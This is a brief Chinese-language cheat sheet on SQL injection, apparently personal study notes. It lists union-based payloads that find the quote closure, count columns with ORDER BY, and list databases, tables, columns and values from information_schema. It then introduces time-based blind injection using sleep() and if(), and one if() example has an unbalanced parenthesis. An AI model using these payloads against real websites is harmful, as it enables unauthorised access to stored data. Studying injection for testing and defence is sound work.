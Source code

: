# 分类

盲注和有回显的注入

# 有回显的注入

## 联合查询unionselect

先判断是字符型的闭合还是数字型，如果是字符型是单引号闭合还是双引号，有没有括号。

```
id=1
id=1'
id=1"
id=1')
```

然后order by看有几个字段

```
id=1' order by 4 -- a
```

然后爆库名表名列名，再爆列值

```
id=1' union select 1,2,database() -- a
id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() -- a
id=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=#tablename -- a
id=1' union select 1,2,group_concat(#columnname) from #tablename -- a
```



# 无回显盲注（一般需要脚本配合）

## 时间延迟型盲注

利用sql中sleep和if函数，满足语句条件则休眠一段时间

if函数：if（条件，返回值1，返回值2）

用法：if((length(database())>3,sleep(5),1)  #意思是如果满足数据库长度大于3，睡眠5秒，否则返回值1